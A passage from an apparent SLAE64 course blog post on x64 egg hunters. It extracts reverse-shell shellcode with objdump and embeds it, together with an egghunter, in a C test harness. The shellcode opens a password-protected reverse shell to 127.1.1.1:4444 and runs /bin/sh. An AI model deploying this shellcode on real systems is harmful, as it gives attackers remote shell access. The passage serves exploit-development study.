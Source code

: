 Now we have extracted the shellcode and we will test it with the reverse shell created in the previous blog post. So, we need to extract the shellcode from the `reverse` executable with the previous `objdump` command:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ objdump -d ./reverse |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xc0\xb0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\x83\xc6\x01\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\xc7\x44\x24\xfc\x7f\x01\x01\x01\x66\xc7\x44\x24\xfa\x11\x5c\xc6\x44\x24\xf8\x02\x48\x83\xec\x08\x04\x2a\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x0f\x05\x48\x31\xf6\x48\x83\xc6\x03\x48\x31\xc0\x04\x21\x48\xff\xce\x0f\x05\x75\xf4\x48\x31\xc0\x48\x89\xe6\x48\x31\xd2\x80\xc2\x08\x0f\x05\x48\x89\xe7\x48\xb8\x50\x61\x73\x73\x77\x6f\x72\x64\x48\xaf\x75\x20\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x48\xff\xcf\x0f\x05"
```

After that, we modify the `C` program provided in the course materials that checks if a shellcode is working. The `code` array contains the shellcode generated by `objdump` but at the start we have put the egg value twice in little endian format. So it has become `\x90\x50\x90\x50\x90\x50\x90\x50`. When the Egg Hunter shellcode gets executed it will search for that pattern and execute the shellcode coming after that, which is our reverse shell. Then we declare the `egghunter` shellcode. After that we print the lengths of both shellcodes. Finally, we perform typecasting on the `egghunter` shellcode and execute the `ret()` function that executes the `egghunter` shellcode, which then calls `code`.

The whole `C` program is the following:

```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x48\x31\xc0\xb0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\x83\xc6\x01\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\xc7\x44\x24\xfc\x7f\x01\x01\x01\x66\xc7\x44\x24\xfa\x11\x5c\xc6\x44\x24\xf8\x02\x48\x83\xec\x08\x04\x2a\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x0f\x05\x48\x31\xf6\x48\x83\xc6\x03\x48\x31\xc0\x04\x21\x48\xff\xce\x0f\x05\x75\xf4\x48\x31\xc0\x48\x89\xe6\x48\x31\xd2\x80\xc2\x08\x0f\x05\x48\x89\xe7\x48\xb8\x50\x61\x73\x73\x77\x6f\x72\x64\x48\xaf\x75\x20\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x48\xff\xcf\x0f\x05";

unsigned char egghunter[] = \
"\x48\x31\xdb\xbb\x90\x50\x90\x50\x48\x31\xff\x48\x31\xd2\x66\x81\xca\xff\x0f\x48\xff\xc2\x48\x8d\x7a\x04\x48\x31\xc0\xb0\x15\x0f\x05\x3c\xf2\x74\xe9\x39\x1a\x75\xea\x39\x5a\x04\x75\xe5\xff\xe2";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));
		printf("Egg Hunter Length: %d\n", strlen(egghunter));

        int (*ret)() = (int(*)())egghunter;

        ret();

	return 0;
}
```
